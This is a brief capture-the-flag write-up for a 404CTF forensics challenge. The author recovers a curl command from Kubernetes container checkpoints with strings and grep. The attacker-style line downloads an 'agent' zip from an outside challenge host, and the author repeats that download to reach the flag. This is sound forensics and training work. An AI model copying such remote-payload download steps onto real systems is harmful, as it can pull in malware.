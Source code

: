 > # Moyen - Les Mystères du cluster de la Comtesse de Ségur [1/2]
>
> Vous rencontrez la Comtesse de Ségur au Procope. La Comtesse de Ségur a créé une entreprise de vente de livres en ligne en s'aidant du succès de ses livres pour enfants et l'a déployé sur un cluster Kubernetes.
>
> Celle-ci vous explique avoir été victime d'une demande de rançon. En effet, quelqu'un lui a volé ses livres pas encore publiés et menace de les publier sur Internet si elle ne lui paye la rançon demandée.
>
> La Comtesse vous demande d'enquêter sur la manière dont le maître chanteur a pu voler ses livres et vous donne pour cela les informations à sa disposition.
>
> Votre mission consiste à exploiter le fichier fourni pour y retrouver les traces du maître chanteur.
> Auteur : Typhlos#9037

1. I knew nothing about kubernetes so I made some research first, I kept 3 link which was useful for this challenge :
- https://kubernetes.io/blog/2022/12/05/forensic-container-checkpointing-alpha/
- https://kubernetes.io/blog/2023/03/10/forensic-container-analysis/

2. To solve the chall, I extracted the zip, then I did a strings on every checkpoint and I filtered to find 404.

```
# sudo strings checkpoint/* | grep 404
es.404ctf.fr
404ctf.fr -o agent.zi
curl agent.challenges.404ctf.fr -o agent.zip
enges.404ctf.fr -o agent.zip
```

3. We can see the user made a curl to download a zip, let's do the same ! After extraction we get the flag (the zip is in the second part in reverse)
